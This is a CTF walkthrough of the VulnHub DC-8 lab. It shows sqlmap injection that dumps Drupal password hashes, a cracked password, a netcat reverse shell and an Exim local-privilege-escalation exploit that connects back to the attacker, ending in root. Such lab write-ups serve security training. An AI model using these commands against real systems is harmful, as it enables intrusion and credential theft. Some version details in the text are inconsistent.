


# VulnHub > DC 8

**About Release**

* Name: DC: 8
* Date release: 8 Sep 2019
* Author: DCAU
* Series: DC
* Web page: http://www.five86.com/dc-8.html

**Download**

* DC-8.zip (Size: 379 MB)
* Download: http://www.five86.com/downloads/DC-8.zip
* Download (Mirror): https://download.vulnhub.com/dc/DC-8.zip
* Download (Torrent): https://download.vulnhub.com/dc/DC-8.zip.torrent ([Magnet](magnet:?xt=urn:btih:C217025FFE7D436BDCCD75A1739098AAC35687C3&dn=DC-8.zip&tr=http%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A80/announce&tr=udp%3A%2F%2Ftracker.publicbt.com%3A80/announce&tr=udp%3A%2F%2Ftracker.istole.it%3A6969))

**Description**

DC-8 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This challenge is a bit of a hybrid between being an actual challenge, and being a "proof of concept" as to whether two-factor authentication installed and configured on Linux can prevent the Linux server from being exploited.

The "proof of concept" portion of this challenge eventuated as a result of a question being asked about two-factor authentication and Linux on Twitter, and also due to a suggestion by @theart42.

The ultimate goal of this challenge is to bypass two-factor authentication, get root and to read the one and only flag.

You probably wouldn't even know that two-factor authentication was installed and configured unless you attempt to login via SSH, but it's definitely there and doing it's job.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

# Initial foothold

## Services Enumeration

Nmap reveals 2 open ports:

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 35:a7:e6:c4:a8:3c:63:1d:e1:c0:ca:a3:66:bc:88:bf (RSA)
|   256 ab:ef:9f:69:ac:ea:54:c6:8c:61:55:49:0a:e7:aa:d9 (ECDSA)
|_  256 7a:b2:c6:87:ec:93:76:d4:ea:59:4b:1b:c6:e8:73:f2 (ED25519)
80/tcp open  http    Apache httpd
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache
|_http-title: Welcome to DC-8 | DC-8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web enumeration

### Drupal identification

Connecting to the web service with our browser reveals a Drupal installation. We can confirm that the version 7.67 is installed, using `droopescan`:

~~~
kali@kali:/data/DC_8$ droopescan 

    |
 ___| ___  ___  ___  ___  ___  ___  ___  ___  ___
|   )|   )|   )|   )|   )|___)|___ |    |   )|   )
|__/ |    |__/ |__/ |__/ |__   __/ |__  |__/||  /
                    |
                                         v1.33.7

Example invocations: 
  droopescan scan drupal -u URL_HERE
  droopescan scan silverstripe -u URL_HERE

More info: 
  droopescan scan --help
 
Please see the README file for information regarding proxies.

kali@kali:/data/DC_8$ droopescan scan drupal -u http://dc-8/
[+] Plugins found:                                                              
    ctools http://dc-8/sites/all/modules/ctools/
        http://dc-8/sites/all/modules/ctools/LICENSE.txt
        http://dc-8/sites/all/modules/ctools/API.txt
    views http://dc-8/sites/all/modules/views/
        http://dc-8/sites/all/modules/views/README.txt
        http://dc-8/sites/all/modules/views/LICENSE.txt
    webform http://dc-8/sites/all/modules/webform/
        http://dc-8/sites/all/modules/webform/LICENSE.txt
    ckeditor http://dc-8/sites/all/modules/ckeditor/
        http://dc-8/sites/all/modules/ckeditor/CHANGELOG.txt
        http://dc-8/sites/all/modules/ckeditor/README.txt
        http://dc-8/sites/all/modules/ckeditor/LICENSE.txt
    better_formats http://dc-8/sites/all/modules/better_formats/
        http://dc-8/sites/all/modules/better_formats/README.txt
        http://dc-8/sites/all/modules/better_formats/LICENSE.txt
    profile http://dc-8/modules/profile/
    php http://dc-8/modules/php/
    image http://dc-8/modules/image/

[+] Themes found:
    seven http://dc-8/themes/seven/
    garland http://dc-8/themes/garland/

[+] Possible version(s):
    7.67

[+] Possible interesting urls found:
    Default changelog file - http://dc-8/CHANGELOG.txt
    Default admin - http://dc-8/user/login

[+] Scan finished (0:00:31.831422 elapsed)
~~~

### SQL injection vulnerability

On the main page, there are links on the left that are supposed to point to pages, but none of them is really working. They are built as follows:

* http://dc-8/?nid=1
* http://dc-8/?nid=2
* http://dc-8/?nid=3

Let's test if this is vulnerable to injection:

~~~
kali@kali:/data/DC_8/files$ sqlmap -u http://dc-8/?nid=3 --dbs

[REDACTED]

available databases [2]:                                                                                                                                                                                                                   
[*] d7db
[*] information_schema

[18:19:23] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 25 times
[18:19:23] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/dc-8'

[*] ending @ 18:19:23 /2020-10-11/
~~~

Now that we know the database, let's list the tables:

~~~
kali@kali:/data/DC_8/files$ sqlmap -u http://dc-8/?nid=3 -D d7db --tables

[REDACTED]

Database: d7db                                                                                                                                                                                                                             
[88 tables]
+-----------------------------+
| filter                      |
| system                      |
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
| block_node_type             |
| block_role                  |
| blocked_ips                 |
| cache                       |
| cache_block                 |
| cache_bootstrap             |
| cache_field                 |
| cache_filter                |
| cache_form                  |
| cache_image                 |
| cache_menu                  |
| cache_page                  |
| cache_path                  |
| cache_views                 |
| cache_views_data            |
| ckeditor_input_format       |
| ckeditor_settings           |
| ctools_css_cache            |
| ctools_object_cache         |
| date_format_locale          |
| date_format_type            |
| date_formats                |
| field_config                |
| field_config_instance       |
| field_data_body             |
| field_data_field_image      |
| field_data_field_tags       |
| field_revision_body         |
| field_revision_field_image  |
| field_revision_field_tags   |
| file_managed                |
| file_usage                  |
| filter_format               |
| flood                       |
| history                     |
| image_effects               |
| image_styles                |
| menu_custom                 |
| menu_links                  |
| menu_router                 |
| node                        |
| node_access                 |
| node_revision               |
| node_type                   |
| queue                       |
| rdf_mapping                 |
| registry                    |
| registry_file               |
| role                        |
| role_permission             |
| search_dataset              |
| search_index                |
| search_node_links           |
| search_total                |
| semaphore                   |
| sequences                   |
| sessions                    |
| shortcut_set                |
| shortcut_set_users          |
| site_messages_table         |
| taxonomy_index              |
| taxonomy_term_data          |
| taxonomy_term_hierarchy     |
| taxonomy_vocabulary         |
| url_alias                   |
| users                       |
| users_roles                 |
| variable                    |
| views_display               |
| views_view                  |
| watchdog                    |
| webform                     |
| webform_component           |
| webform_conditional         |
| webform_conditional_actions |
| webform_conditional_rules   |
| webform_emails              |
| webform_last_download       |
| webform_roles               |
| webform_submissions         |
| webform_submitted_data      |
+-----------------------------+

[18:23:39] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/dc-8'

[*] ending @ 18:23:39 /2020-10-11/
~~~

Let's now dump the users table:

~~~
kali@kali:/data/DC_8/files$ sqlmap -u http://dc-8/?nid=3 -D d7db -T users --dump

[REDACTED]

Database: d7db                                                                                                                                                                                                                             
Table: users
[3 entries]
+-----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------------------+---------+---------------------------------------------------------+------------+---------+------------+--------+------------+---------+--------------------+-----------+------------+------------------+
| uid | data                                                                                                                                                                        | init                | mail                  | name    | pass                                                    | login      | theme   | access     | status | created    | picture | timezone           | signature | language   | signature_format |
+-----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------------------+---------+---------------------------------------------------------+------------+---------+------------+--------+------------+---------+--------------------+-----------+------------+------------------+
| 0   | NULL                                                                                                                                                                        | <blank>             | <blank>               | <blank> | <blank>                                                 | 0          | <blank> | 0          | 0      | 0          | 0       | NULL               | <blank>   | <blank>    | NULL             |
| 1   | a:2:{s:7:"contact";i:0;s:7:"overlay";i:1;}                                                                                                                                  | dc8blah@dc8blah.org | dcau-user@outlook.com | admin   | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z | 1567766626 | <blank> | 1567766818 | 1      | 1567489015 | 0       | Australia/Brisbane | <blank>   | <blank>    | filtered_html    |
| 2   | a:5:{s:16:"ckeditor_default";s:1:"t";s:20:"ckeditor_show_toggle";s:1:"t";s:14:"ckeditor_width";s:4:"100%";s:13:"ckeditor_lang";s:2:"en";s:18:"ckeditor_auto_lang";s:1:"t";} | john@blahsdfsfd.org | john@blahsdfsfd.org   | john    | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF | 1567497783 | <blank> | 1567498512 | 1      | 1567489250 | 0       | Australia/Brisbane | <blank>   | <blank>    | filtered_html    |
+-----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------------------+---------+---------------------------------------------------------+------------+---------+------------+--------+------------+---------+--------------------+-----------+------------+------------------+

[18:24:33] [INFO] table 'd7db.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/dc-8/dump/d7db/users.csv'
[18:24:33] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/dc-8'

[*] ending @ 18:24:33 /2020-10-11/
~~~

### John's credentials

We have hashes, let's brute force them with John:

~~~
kali@kali:/data/DC_8/files$ /data/src/john/run/john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
turtle           (john)
1g 0:00:00:01 DONE (2020-10-11 18:27) 0.9259g/s 466.6p/s 466.6c/s 466.6C/s genesis..claire
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

Now, we can connect to `http://dc-8/user/login` with `john:turtle`

# Reverse shell

The usual way of exploiting Drupal is via the "PHP filter" module. Click on the "Contact Us" tab, then on the "Webform" tab and then on "Form settings".

Now submit anything to the contact form and you will get a reverse shell:

~~~
kali@kali:/data/DC_8/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.163] 50894
Linux dc-8 4.9.0-4-amd64 #1 SMP Debian 4.9.51-1 (2017-09-28) x86_64 GNU/Linux
 02:48:08 up  1:07,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@dc-8:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

# Privilege Escalation

## SUID programs

Listing programs owned by root with the SUID bit set will reveal the presence of exim4.

~~~
www-data@dc-8:/home/dc8user$ find / -type f -user root -perm -u=s 2>/dev/null
find / -type f -user root -perm -u=s 2>/dev/null
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/newgrp
/usr/sbin/exim4 <----------------- outdated / vulnerable version
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/su
/bin/umount
/bin/mount
~~~

## Outdated exim4 version

Checking the exact version will confirm that this is 4.84:

~~~
/usr/sbin/exim4 --version
Exim version 4.89 #2 built 14-Jun-2017 05:03:07
Copyright (c) University of Cambridge, 1995 - 2017
(c) The Exim Maintainers and contributors in ACKNOWLEDGMENTS file, 2007 - 2017
Berkeley DB: Berkeley DB 5.3.28: (September  9, 2013)
Support for: crypteq iconv() IPv6 GnuTLS move_frozen_messages DKIM DNSSEC Event OCSP PRDR SOCKS TCP_Fast_Open
Lookups (built-in): lsearch wildlsearch nwildlsearch iplsearch cdb dbm dbmjz dbmnz dnsdb dsearch nis nis0 passwd
Authenticators: cram_md5 plaintext
Routers: accept dnslookup ipliteral manualroute queryprogram redirect
Transports: appendfile/maildir/mailstore autoreply lmtp pipe smtp
Fixed never_users: 0
Configure owner: 0:0
Size of off_t: 8
Configuration file is /var/lib/exim4/config.autogenerated
~~~

This version suffers from important vulnerabilities, including a privilege escalations:

~~~
kali@kali:/data/src$ searchsploit exim
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Dovecot with Exim - 'sender_address' Remote Command Execution                      | linux/remote/25297.txt
Exim - 'GHOST' glibc gethostbyname Buffer Overflow (Metasploit)                    | linux/remote/36421.rb
Exim - 'perl_startup' Local Privilege Escalation (Metasploit)                      | linux/local/39702.rb
Exim - 'sender_address' Remote Code Execution                                      | linux/remote/25970.py
Exim 3.x - Format String                                                           | linux/local/20900.txt
Exim 4 (Debian 8 / Ubuntu 16.04) - Spool Privilege Escalation                      | linux/local/40054.c
Exim 4.41 - 'dns_build_reverse' Local Buffer Overflow                              | linux/local/756.c
Exim 4.41 - 'dns_build_reverse' Local Read Emails                                  | linux/local/1009.c
Exim 4.42 - Local Privilege Escalation                                             | linux/local/796.sh
Exim 4.43 - 'auth_spa_server()' Remote                                             | linux/remote/812.c
Exim 4.63 - Remote Command Execution                                               | linux/remote/15725.pl
Exim 4.84-3 - Local Privilege Escalation                                           | linux/local/39535.sh
Exim 4.87 - 4.91 - Local Privilege Escalation                                      | linux/local/46996.sh
Exim 4.87 / 4.91 - Local Privilege Escalation (Metasploit)                         | linux/local/47307.rb
Exim 4.87 < 4.91 - (Local / Remote) Command Execution                              | linux/remote/46974.txt
Exim 4.89 - 'BDAT' Denial of Service                                               | multiple/dos/43184.txt
exim 4.90 - Remote Code Execution                                                  | linux/remote/45671.py
Exim < 4.86.2 - Local Privilege Escalation                                         | linux/local/39549.txt
Exim < 4.90.1 - 'base64d' Remote Code Execution                                    | linux/remote/44571.py
Exim Buffer 1.6.2/1.6.51 - Local Overflow                                          | unix/local/20333.c
Exim ESMTP 4.80 - glibc gethostbyname Denial of Service                            | linux/dos/35951.py
Exim Internet Mailer 3.35/3.36/4.10 - Format String                                | linux/local/22066.c
Exim Sender 3.35 - Verification Remote Stack Buffer Overrun                        | linux/remote/24093.c
Exim4 < 4.69 - string_format Function Heap Buffer Overflow (Metasploit)            | linux/remote/16925.rb
PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution                           | php/webapps/42221.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
~~~

## Exploit

## Download

Let's download one of them (notice that we'll use `dos2unix` to get rid of the annoying `^M` issue, because the exploit has been written on a Windows editor, which will make the exploit fail on the Linux target).

~~~
$ searchsploit -m 46996
$ dos2unix raptor_exim_wiz 
$ python3 -m http.server
~~~

## The setuid method

The first method doesn't work:

~~~
www-data@dc-8:/tmp$ ./raptor_exim_wiz -m setuid
./raptor_exim_wiz -m setuid

raptor_exim_wiz - "The Return of the WIZard" LPE exploit
Copyright (c) 2019 Marco Ivaldi <raptor@0xdeadbeef.info>

Preparing setuid shell helper...
Problems compiling setuid shell helper, check your gcc.
Falling back to the /bin/sh method.

Delivering setuid payload...
220 dc-8 ESMTP Exim 4.89 Mon, 12 Oct 2020 04:27:46 +1000
250 dc-8 Hello localhost [::1]
250 OK
250 Accepted
354 Enter message, ending with "." on a line by itself
250 OK id=1kRg4Q-0004fK-Ff
221 dc-8 closing connection

Waiting 5 seconds...
-rwxr-xr-x 1 www-data www-data 117208 Oct 12 04:27 /tmp/pwned
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

## The netcat method

Let's try the second method. You'll need to edit the script to put your IP address. Also start a listener on your Kali machine.

~~~
www-data@dc-8:/tmp$ chmod +x raptor_exim_wiz
chmod +x raptor_exim_wiz
www-data@dc-8:/tmp$ ./raptor_exim_wiz -m netcat
./raptor_exim_wiz -m netcat

raptor_exim_wiz - "The Return of the WIZard" LPE exploit
Copyright (c) 2019 Marco Ivaldi <raptor@0xdeadbeef.info>

Delivering netcat payload...
220 dc-8 ESMTP Exim 4.89 Mon, 12 Oct 2020 04:52:30 +1000
250 dc-8 Hello localhost [::1]
250 OK
250 Accepted
354 Enter message, ending with "." on a line by itself
250 OK id=1kRgSM-0004iN-Kw
221 dc-8 closing connection

Waiting 5 seconds...
(UNKNOWN) [172.16.222.128] 5555 (?) : Connection refused
~~~

# Root flag

We now have a root shell and we can get the root flag:

~~~
Keyboard interrupt received, exiting.
kali@kali:/data/DC_8/files$ rlwrap nc -nlvp 5555
listening on [any] 5555 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.163] 34698
id
uid=0(root) gid=113(Debian-exim) groups=113(Debian-exim)
python -c "import pty;pty.spawn('/bin/bash')"
root@dc-8:/var/spool/exim4# cd /root
cd /root
root@dc-8:/root# ls -la
ls -la
total 28
drwx------  2 root root 4096 Sep  6  2019 .
drwxr-xr-x 22 root root 4096 Sep  5  2019 ..
lrwxrwxrwx  1 root root    9 Sep  5  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-r--------  1 root root  101 Sep  6  2019 .google_authenticator
-rw-------  1 root root  360 Sep  5  2019 .mysql_history
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
-rw-r--r--  1 root root 1320 Sep  6  2019 flag.txt
root@dc-8:/root# cat flag.txt
cat flag.txt

Brilliant - you have succeeded!!!

888       888          888 888      8888888b.                             888 888 888 888
888   o   888          888 888      888  "Y88b                            888 888 888 888
888  d8b  888          888 888      888    888                            888 888 888 888
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888

Hope you enjoyed DC-8.  Just wanted to send a big thanks out there to all those
who have provided feedback, and all those who have taken the time to complete these little
challenges.

I'm also sending out an especially big thanks to:

@4nqr34z
@D4mianWayne
@0xmzfr
@theart42

This challenge was largely based on two things:

1. A Tweet that I came across from someone asking about 2FA on a Linux box, and whether it was worthwhile.
2. A suggestion from @theart42

The answer to that question is...

If you enjoyed this CTF, send me a tweet via @DCAU7.

root@dc-8:/root# 
~~~
